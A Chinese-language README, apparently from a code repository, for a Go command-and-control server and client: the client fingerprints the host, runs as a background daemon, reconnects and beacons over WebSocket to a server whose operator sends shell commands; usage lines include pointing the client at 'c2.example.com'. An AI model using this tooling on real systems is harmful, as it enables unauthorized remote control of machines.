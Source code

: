 const readme = "
# C2 Server and Client Implementation

基于 Go 实现的 C2（Command and Control）服务器与客户端。

## 项目概述

该项目包含两个主要组件：

- **C2 服务器 (`server.go`)** - 管理连接的客户端并发送命令  
- **客户端 (`client.go`)** - 在目标机器上运行，连接服务器并执行命令

客户端会收集系统信息（如硬件指纹、IP 地址等）并连接至服务器，服务器操作员可以选择客户端并远程下发命令执行。

---

## 📁 目录结构

\`\`\`
text
├── server.go       # C2 服务器源码
├── client.go       # 客户端源码
└── README.md       # 本说明文档
\`\`\`

---

## ✨ 功能特性

### 服务器功能

- WebSocket 服务端监听客户端连接
- 客户端管理（UUID、IP 地址、连接状态）
- 交互式命令行界面
- 客户端选择与命令发送
- 实时显示客户端命令执行结果
- 多客户端并发管理

### 客户端功能

- 生成稳定的机器指纹（基于硬件信息）
- 获取公网 IPv4/IPv6 地址
- 守护进程模式（后台运行）
- 自动重连机制
- 心跳保持连接
- 命令执行与结果返回
- 跨平台支持（Windows/Linux/macOS）

---

## 🚀 使用指南

### 1. 编译程序

编译服务器：

\`\`\`bash
go build -o c2-server server.go
\`\`\`

编译客户端：

\`\`\`bash
go build -o client client.go
\`\`\`

---

### 2. 运行服务器

\`\`\`bash
./c2-server -p 8080
\`\`\`

- \`-p\`: 指定监听端口（默认：8080）

---

### 3. 运行客户端

\`\`\`bash
./client -s wss://your-server-address:8080/ws -d
\`\`\`

- \`-s\`: 服务器 WebSocket URL（支持 \`ws://\` 和 \`wss://\`）
- \`-d\`: 后台守护模式

> ⚠️ 客户端首次运行可能需要管理员/root 权限以获取硬件信息

---

## 🖥️ 服务器命令行操作

启动服务器后，会显示交互式 CLI：

\`\`\`text
C2 Server CLI - Type 'help' for commands
> 
\`\`\`

### 可用命令

| 命令              | 描述                       | 示例                                               |
|-------------------|----------------------------|----------------------------------------------------|
| \`help\`            | 显示帮助信息               | \`help\`                                             |
| \`list\`            | 列出所有在线客户端         | \`list\`                                             |
| \`select [ID]\`     | 选择客户端（编号或 UUID）  | \`select 1\` 或 \`select 550e8400-e29b...\`          |
| \`cmd [command]\`   | 向客户端发送命令           | \`cmd whoami\`                                       |
| \`quit\` / \`exit\`   | 关闭服务器                 | \`quit\`                                             |

---

### 客户端列表示例

\`\`\`text
=== Online Clients ===
*  1. 550e8400... (IPv4: 192.168.1.100, IPv6: 2001:db8::1)
   2. 6ba7b810... (IPv4: 10.0.0.2, IPv6: ::)
\`\`\`

\`*\` 表示当前选中的客户端

---

## 🔍 技术细节

### 客户端标识生成

使用以下硬件信息生成唯一 ID（通过 SHA-256 哈希并截断为 16 字符）：

- 主 MAC 地址  
- 系统磁盘序列号  
- BIOS/UEFI 序列号  
- 主板序列号

---

### 连接流程

1. 客户端启动并收集系统信息  
2. 连接至 WebSocket 服务器  
3. 发送 Base64 编码的系统信息  
4. 服务器注册客户端并显示在列表中  
5. 维持心跳连接（每 30 秒）

---

### 命令执行方式

- **Windows**: \`cmd /c [command]\`
- **Linux/macOS**: \`sh -c [command]\`

---

## 🔐 安全注意事项

- **通信安全**：
  - 推荐使用 TLS 加密（\`wss://\`）
  - 默认跳过证书验证，生产环境应配置合法证书

- **权限控制**：
  - 客户端可能需管理员/root 权限获取硬件信息
  - 服务器应部署在受控环境中

- **匿名性**：
  - 客户端使用 \`ip.sb\` 获取公网 IP
  - 使用标准 \`curl\` User-Agent 减少特征化

---

## 📦 依赖项

\`\`\`bash
go get github.com/gorilla/websocket
\`\`\`

---

## ⚠️ 已知限制

- Windows 可能需关闭防火墙以进行测试  
- 在虚拟机环境下可能无法完整获取硬件信息  
- IPv6 检测依赖网络支持  
- 命令输出受限于 WebSocket 消息大小

---

## ✅ 使用示例

启动服务器：

\`\`\`bash
./c2-server -p 443
\`\`\`

在客户端运行（后台模式）：

\`\`\`bash
./client -s wss://c2.example.com/ws -d
\`\`\`

服务器控制示例：

\`\`\`text
> list
> select 1
> cmd uname -a
> cmd ipconfig /all
\`\`\`

---

## 📄 许可证

此代码仅用于教育目的，**严禁用于未经授权的实际环境**。  
使用本项目造成的任何后果由使用者自行承担。
"
